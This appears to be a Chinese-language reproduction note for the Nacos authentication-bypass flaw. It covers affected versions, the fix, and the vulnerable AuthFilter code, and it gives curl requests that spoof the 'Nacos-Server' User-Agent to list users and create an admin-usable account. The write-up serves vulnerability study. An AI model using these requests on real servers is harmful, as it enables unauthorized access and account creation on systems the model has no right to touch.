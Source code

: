 # nacos未授权漏洞
https://github.com/alibaba/nacos/issues/4593
使用UA绕过权限验证

# 漏洞复现
version <= 2.0.0-ALPHA.1

启动nacos

```text
cd nacos/bin
sh startup.sh -m standalone
```

```text
curl XGET 'http://192.168.0.111:8848/nacos/v1/auth/users?pageNo=1&pageSize=9' -H 'User-Agent: Nacos-Server'
```

```text
curl -XPOST 'http://192.168.0.111:8848/nacos/v1/auth/users?username=test&password=test' -H 'User-Agent: Nacos-Server'
```

# exp

# 修复
version = 1.4.1修复

# 漏洞原理

com.alibaba.nacos.core.auth.AuthFilter#doFilter

```text
@Override
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)
        throws IOException, ServletException {
    
    // 未开启鉴权
    if (!authConfigs.isAuthEnabled()) {
        chain.doFilter(request, response);
        return;
    }
    
    HttpServletRequest req = (HttpServletRequest) request;
    HttpServletResponse resp = (HttpServletResponse) response;
    
    String userAgent = WebUtils.getUserAgent(req);
    
    // Nacos-Server的UA
    if (StringUtils.startsWith(userAgent, Constants.NACOS_SERVER_HEADER)) {
        chain.doFilter(request, response);
        return;
    }
    
    ...
}
```